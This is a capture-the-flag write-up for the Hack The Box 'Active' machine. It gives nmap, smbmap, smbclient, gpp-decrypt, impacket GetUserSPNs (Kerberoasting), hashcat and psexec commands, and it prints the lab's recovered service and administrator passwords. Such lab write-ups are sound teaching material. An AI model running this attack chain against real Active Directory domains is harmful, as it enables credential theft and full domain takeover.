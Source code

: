 # [Active](https://app.hackthebox.com/machines/active)

```bash
nmap -p- --min-rate 10000 10.10.10.100 -Pn
```

![Alt text](img/image.png)


After knowing the open ports (53,88,135,139,389,445,464,593,636,3268,3269,5722,9389), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389 10.10.10.100 -Pn 
```

put image here.


In my opinion, it's Domain Controller as because port 88 is open.


I also enumerate SMB share via `smbmap` command.

```bash
smbmap -H 10.10.10.100
```

![Alt text](img/image-1.png)

Let's access into 'Replication' share to read some data.

```bash
smbclient -N //10.10.10.100/Replication 
```

![Alt text](img/image-2.png)


I found 'Groups.xml' file, let's read this file.

![Alt text](img/image-3.png)


We get value from 'cpassword' key and decrypt via `gpp-decrypt` tool.

```bash
gpp-decrypt {value_of_cpassword}
```

![Alt text](img/image-4.png)



That's credentials of 'SVC_TGS' as we read from 'Groups.xml' file.

SVC_TGS : GPPstillStandingStrong2k18


Let's check this user is `Kerberoastable` or not.

For this, we need to use `GetUserSPNs.py` script of `impacket` module.

```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS:'GPPstillStandingStrong2k18'
```

![Alt text](img/image-5.png)


Let's get this hash of '**administrator**' and crack via `hashcat` tool.

```bash
hashcat -m 13100 hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
```

![Alt text](img/image-6.png)


Administrator:Ticketmaster1968


Let's connect machine via this credentials by using `psexec.py` script of `impacket`.

```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator:'Ticketmaster1968'@10.10.10.100  
```

![Alt text](img/image-7.png)

user.txt

![Alt text](img/image-8.png)


root.txt

![Alt text](img/image-9.png)